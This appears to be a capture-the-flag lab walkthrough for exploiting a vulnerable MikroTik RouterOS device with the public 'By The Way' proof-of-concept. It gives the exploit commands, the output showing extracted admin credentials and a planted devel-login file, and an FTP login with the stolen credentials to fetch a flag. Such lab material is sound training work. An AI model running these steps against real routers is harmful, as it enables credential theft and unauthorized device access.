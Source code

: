 +++
title = "Exploitation"
date = 2021-10-18T20:39:54-06:00
weight = 10
+++


After searching online, we find that the version of Mikrotik/RouterOS should be vulnerable to an exploit called "By The Way"
### Exploitation

The following versions of Router OS are vulnerable to "ByTheWay" exploit:
```txt
Longterm: 6.30.1 - 6.40.7
Stable: 6.29 - 6.42
Beta: 6.29rc1 - 6.43rc3
```

The Tenable security team has created a POC for the "By The Way" exploit, found here: <a href="https://github.com/tenable/routeros/tree/master/poc/bytheway">https://github.com/tenable/routeros/tree/master/poc/bytheway</a>

The repo is already cloned, and the exploit compiled.

1. Navigate to `~/routeros/poc/bytheway/build`
```
cd ~/routeros/poc/bytheway/build
```

2. Run the exploit against the Mikrotik
```
./btw -i 172.21.0.4
```

You should see the following:

```txt

   ╔╗ ┬ ┬  ┌┬┐┬ ┬┌─┐  ╦ ╦┌─┐┬ ┬
   ╠╩╗└┬┘   │ ├─┤├┤   ║║║├─┤└┬┘
   ╚═╝ ┴    ┴ ┴ ┴└─┘  ╚╩╝┴ ┴ ┴

[+] Attempting to connect to 172.21.0.4:8291
[+] Extracting user.dat...
[+] Searching for administrator credentials
[+] Using credentials - [[[CREDENTIALS HERE]]]
[+] Creating /pckg/option on 172.21.0.4:8291
[+] Creating /flash/nova/etc/devel-login on 172.21.0.4:8291
[+] There's a light on
```

3. We see that the exploit has extracted credentials for the admin user.

4. Login to FTP using the creds you got in step 2.

```
ftp 172.21.0.4
```
Use the username and password to login. It should look something like:
```
Name (172.21.0.4:user): admin
331 Password required for admin
Password:
230 User admin logged in
Remote system type is UNIX.
```

In the FTP Prompt run `passive` to set the mode to Passive.
```
ftp> passive
Passive mode on.
```

List the directory
```
ftp> ls
227 Entering Passive Mode (172,21,0,4,191,152).
150 Opening data connection
-rw-rw----   1 root     root           59 Oct 18 12:47 flag.txt
drwxrwx---   1 root     root         1024 Dec 31 18:00 flash
226 Transfer complete
```

Get the flag!
```
ftp> get flag.txt
local: flag.txt remote: flag.txt
227 Entering Passive Mode (172,21,0,4,208,214).
150 Opening ASCII mode data connection for /flag.txt (59 bytes)
226 ASCII transfer complete
59 bytes received in 0.00 secs (61.0999 kB/s)
```

Exit FTP
```
ftp> exit
221 Closing
```

5. Print the flag. Use this to solve the Hacker Challenge.
```
cat flag.txt
```

6. Delete the flag so those after you don't already have it.
```
rm flag.txt
```
